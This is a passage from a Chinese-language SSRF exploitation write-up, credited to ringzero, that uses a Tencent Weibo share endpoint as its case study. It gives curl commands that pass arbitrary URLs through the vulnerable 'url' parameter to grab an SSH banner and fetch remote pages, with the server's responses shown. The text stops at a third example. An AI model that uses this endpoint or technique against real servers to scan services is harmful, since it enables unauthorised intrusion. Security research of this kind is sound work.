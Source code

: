 原文 by ringzero
  

  
## 1. 描述
  

  
本文章将概述一些经典的SSRF漏洞利用原理，从Fuzz扫描开放的服务到漏洞的自动化利用，刚好腾讯的这个漏洞点，非常适合做为案例来演示。
  

  
### 1.1 漏洞信息
  

  
腾讯微博应用 http://share.v.t.qq.com
  
SSRF利用点，参数: url
  
http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://wuyun.org
  

  
### 1.2 服务端回显
  

  
当从ssrf利用点发起一个远程请求，如果url资源存在，且MIME类型为HTML，服务端的脚本会分析出HTML页面内的title、img 等等资源，返回给客户端。如果MIME是其它类型，将直接返回原文
  
#### 例1 请求远程服务器的22端口，直接回显OpenSSH的banner信息
  
```
  
[root@localhost wyssrf]# curl 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://fuzz.wuyun.org:22'
  
{"ret":0,"data":{"type":1,"title":"SSH-2.0-OpenSSH_5.3..."}}
  
```
  

  
#### 例2 请求远程服务器的80端口，回显HEAD和图片资源
  
```
  
[root@localhost wyssrf]# curl 'http://share.v.t.qq.com/index.php?c=share&a=pageinfo&url=http://www.baidu.com'
  
{"ret":0,"data":{"type":2,"pics":["http:\/\/www.baidu.com\/img\/baidu_sylogo1.gif"],"title":"\u767e\u5ea6\u4e00\
  
\u4e0b\uff0c\u4f60\u5c31\u77e5\u9053"}}
  
```
  

  
#### 例3 请求不存在的服务器或未开放的端口
  